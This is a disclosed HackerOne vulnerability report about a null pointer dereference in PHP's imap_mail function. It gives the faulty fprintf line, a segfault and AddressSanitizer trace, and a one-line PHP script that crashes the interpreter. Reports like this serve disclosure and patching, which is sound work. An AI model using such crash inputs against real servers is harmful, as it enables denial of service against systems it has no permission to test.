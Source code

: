 # null pointer dereference in imap_mail

## Report Details
- **Report ID**: 456727
- **URL**: https://hackerone.com/reports/456727
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-12-06T03:30:36.662Z
- **Disclosed**: 2020-11-09T01:45:05.229Z

## Reporter
- **Username**: shuoz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
in imap_mail if message args is null, in _php_imap_mail no check wheater message  can get, so crash.

```
     fprintf(sendmail, "\n%s\n", message);

```



/usr/local/php/bin/php ./craxxx.php 

Warning: imap_mail(): No message string in mail command in /home/fan/github/php-7.2.10/myselffuzz/craxxx.php on line 3
sh: 1: -t: not found
Segmentation fault (core dumped)







../sapi/cli/php ./craxxx.php 

Warning: imap_mail(): No message string in mail command in /home/fan/github/php-7.2.10/myselffuzz/craxxx.php on line 3
ASAN:SIGSEGV
=================================================================
==23766==ERROR: AddressSanitizer: SEGV on unknown address 0x000000000018 (pc 0x7fae925d9cc0 bp 0x7ffcb6b27a10 sp 0x7ffcb6b274a0 T0)
sh: 1: -t: not found
    #0 0x7fae925d9cbf in vfprintf (/lib/x86_64-linux-gnu/libc.so.6+0x4ecbf)
    #1 0x7fae926a1bc8 in __fprintf_chk (/lib/x86_64-linux-gnu/libc.so.6+0x116bc8)
    #2 0xa5aeb0 in fprintf /usr/include/x86_64-linux-gnu/bits/stdio2.h:97
    #3 0xa5aeb0 in _php_imap_mail /home/fan/github/php-7.2.10/ext/imap/php_imap.c:4065
    #4 0xa5b22d in zif_imap_mail /home/fan/github/php-7.2.10/ext/imap/php_imap.c:4112
    #5 0x17da703 in ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER /home/fan/Desktop/php-7.2.10/Zend/zend_vm_execute.h:573
    #6 0x17da703 in execute_ex /home/fan/Desktop/php-7.2.10/Zend/zend_vm_execute.h:59747
    #7 0x181b5c3 in zend_execute /home/fan/Desktop/php-7.2.10/Zend/zend_vm_execute.h:63776
    #8 0x1356ef2 in zend_execute_scripts /home/fan/Desktop/php-7.2.10/Zend/zend.c:1496
    #9 0x11c0776 in php_execute_script /home/fan/Desktop/php-7.2.10/main/main.c:2590
    #10 0x1823488 in do_cli /home/fan/Desktop/php-7.2.10/sapi/cli/php_cli.c:1011
    #11 0x18256f4 in main /home/fan/Desktop/php-7.2.10/sapi/cli/php_cli.c:1404
    #12 0x7fae925ab82f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #13 0x440888 in _start (/home/fan/github/php-7.2.10/sapi/cli/php+0x440888)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV ??:0 vfprintf
==23766==ABORTING




Test script:
---------------
<?php
	imap_mail('1', 1, NULL);

?>

php bugs:
https://bugs.php.net/bug.php?id=77020

## Impact

IMAP

## Attachments
No attachments
